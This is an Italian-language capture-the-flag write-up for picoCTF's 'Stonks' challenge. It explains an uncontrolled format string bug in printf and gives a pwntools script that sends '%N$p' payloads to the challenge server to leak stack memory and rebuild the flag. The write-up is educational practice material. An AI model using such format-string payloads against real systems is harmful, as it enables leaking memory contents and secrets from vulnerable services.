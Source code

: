 # Stonks
*I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! 
`nc mercury.picoctf.net 33411`*
<br>

## Soluzione
La funzione **buy_stonks** legge la flag all'interno dello stack e poi chiede all'utente di immettere un'input prima, per poi stamparlo con **printf**: è presente quindi la vulnerabilità [Stringa di formato non controllata](https://www.no-regime.com/ru-it/wiki/Format_string_attack).

Passando quindi `%x` o `%p` possiamo **leggere lo stack**.

![[stonks-1.png]]

Invece di inserire a mano e poi convertire l'output, utilizziamo uno script python.

*La flag parte dal 15esimo DWORD (32bit) dello stack*

```python
from pwn import *

flag = b''
for i in range(15, 25):
    with context.local(log_level = "error"):
        r = remote("mercury.picoctf.net", 33411)
        r.sendlineafter("What would you like to do?\n", "1")
        r.sendlineafter("What is your API token?\n", f"%{i}$p")
        r.recvuntilS("Buying stonks with token:\n")
        out = r.recvline()
        try:
			# Convertiamo da numero a 32bit hex a bytes (se possibile)
            res = p32(int(out.decode(), 16))
            flag += res
        except Exception:
            pass
        r.recvall()

print(flag)
```
<br>

**NB**. Era anche possibile stampare lo stack con un semplice ciclo FOR e poi convertire da esadecimale e cambiare l'ordine dei byte da Little Endian a Big Endian.

---
[Stringa di formato non controllata](https://www.no-regime.com/ru-it/wiki/Format_string_attack)
[Ordine dei byte](https://it.wikipedia.org/wiki/Ordine_dei_byte)
[Soluzione 1](https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF/Stonks.md)
[Soluzione 2](https://dmfrsecurity.com/2021/04/07/picoctf-2021-stonks-writeup/)

